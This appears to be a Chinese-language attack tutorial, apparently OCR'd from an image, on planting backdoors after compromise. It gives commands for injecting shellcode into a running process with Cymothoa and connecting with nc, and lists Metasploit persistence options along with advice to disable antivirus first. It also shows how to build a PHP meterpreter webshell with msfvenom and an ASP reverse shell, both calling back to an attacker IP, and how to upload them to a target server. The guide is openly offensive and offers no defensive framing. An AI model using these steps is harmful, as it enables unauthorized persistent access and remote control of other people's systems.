 **1、操作系统后门：**
- ①Cymothoa后门，Cymothoa是一款可以将shellcode注入现有进程的后门工具、将shellcode伪装成常规程序，与进程共存，只要目标系统的安全防护工具不检测内存，就发现不了后门程序的进程。当然该后门以运行中的程序为宿主，只要进程关闭或者目标主机重启，后门就会停止运行。
使用Cymothoa时，通过-p选项指定目标进程的PID,并通过-s选项指定shellcode的编号，shellcode的编号列表可通过-S查看例子如下：
`Cymothoa -p 982 -s 1 -y 4444  (-p指定PID -s指定shellcode -y指定端口）`
成功后通过以下命令连接：nc -nvv 192.168.31.247 4444

**②persistence后门**
> persistence是一款使用安装自启动方式的持久性后门程序，读者可以利用它创建注册和文件，在meterpreter模块中可以使用，输入run persistence -h 可以查看用到的所有命令选项，部分选项解析：
- ·A：自动启动payload程序
- ·S：系统启动时自动加载
- ·U：用户登录时自动启动
- ·X：开机时自动加载
- ·i：回连的时间间隔
- ·P：监听反向连接端口号
- ·r：目标机器IP地址
- 知识点：此脚本需要在目标机器上创建文件从而触发杀毒软件，建议运行钱关闭杀毒软件。**

**2、web后门：**
> web后门泛指webshell，web后门能给攻击者提供非常多的功能，例如执行文件，反弹shell，辅助提权等、主要工具：中国菜刀，中国蚁剑，cknife，weevely（kali下的强大工具，唯一缺点就是只支持PHP。）接下来开始介绍：

**①meterpreter后门**
> 在metasploit中，有一个名为PHP Meterpreter的Payload，利用这个模块可以创建具有meterpreter功能的PHPwebshell，在攻击中只用该后门的步骤为：
- ·使用msfvenom创建一个webshell.php：msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.31.247 -f raw > webshell.php
- ·上传webshell.php到目标服务器
- ·访问webshell.php
- ·获取反弹的metasploit shell**

**②aspx meterpreter后门：**
> 利用名为shell_reverse_tcp的payload模块可创建meterpreter功能的各版本shellcode，例如比较常见的asp、aspx、vbx、war、msi等
首先使用下列代码调用该模块，并设置相关参数如下：
- Show payloads
- Use windows/shell_reverse_tcp
- Info
- Set lhost 192.168.31.247
- Set lport 4444
- Save
- 接着输入generate -h命令查看帮助命令，利用generate -t  asp生成asp版的shellcode，接着上传到目标服务器即可监听端口等待反弹。**




